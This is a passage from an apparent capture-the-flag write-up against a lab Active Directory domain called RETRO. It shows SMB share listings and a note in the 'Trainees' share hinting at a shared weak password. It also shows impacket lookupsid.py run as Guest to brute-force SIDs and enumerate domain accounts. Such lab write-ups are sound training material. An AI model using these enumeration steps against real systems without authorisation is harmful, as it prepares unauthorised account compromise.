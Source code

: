 ```
SMB         10.10.64.243    445    DC               Notes                           
SMB         10.10.64.243    445    DC               SYSVOL                          Logon server share 
SMB         10.10.64.243    445    DC               Trainees        READ            
```

I went in and checked the readable share "Trainees" and I got the file `Important.txt` which contained the following text:

```
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins
```

That is definitely interesting it does hint that there may be weak credentials, so let's try to enumerate some users. Since that the account "Guest" is working, I used the `lookupsid` by the impacket's scripts.

```
syl@sylsec:~/tools/impacket/examples$ python3 lookupsid.py Guest@10.10.64.243
Impacket v0.12.0.dev1+20230921.20754.9c8f344b - Copyright 2023 Fortra

Password:
[*] Brute forcing SIDs at 10.10.64.243
[*] StringBinding ncacn_np:10.10.64.243[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2983547755-698260136-4283918172
498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: RETRO\Administrator (SidTypeUser)
501: RETRO\Guest (SidTypeUser)
502: RETRO\krbtgt (SidTypeUser)
512: RETRO\Domain Admins (SidTypeGroup)
513: RETRO\Domain Users (SidTypeGroup)
514: RETRO\Domain Guests (SidTypeGroup)
515: RETRO\Domain Computers (SidTypeGroup)
516: RETRO\Domain Controllers (SidTypeGroup)
517: RETRO\Cert Publishers (SidTypeAlias)
518: RETRO\Schema Admins (SidTypeGroup)
519: RETRO\Enterprise Admins (SidTypeGroup)
520: RETRO\Group Policy Creator Owners (SidTypeGroup)
521: RETRO\Read-only Domain Controllers (SidTypeGroup)
522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
525: RETRO\Protected Users (SidTypeGroup)
526: RETRO\Key Admins (SidTypeGroup)
527: RETRO\Enterprise Key Admins (SidTypeGroup)
553: RETRO\RAS and IAS Servers (SidTypeAlias)
571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
1000: RETRO\DC$ (SidTypeUser)
1101: RETRO\DnsAdmins (SidTypeAlias)
1102: RETRO\DnsUpdateProxy (SidTypeGroup)
1104: RETRO\trainee (SidTypeUser)
1106: RETRO\BANKING$ (SidTypeUser)
1107: RETRO\jburley (SidTypeUser)
1108: RETRO\HelpDesk (SidTypeGroup)
1109: RETRO\tblack (SidTypeUser)
```
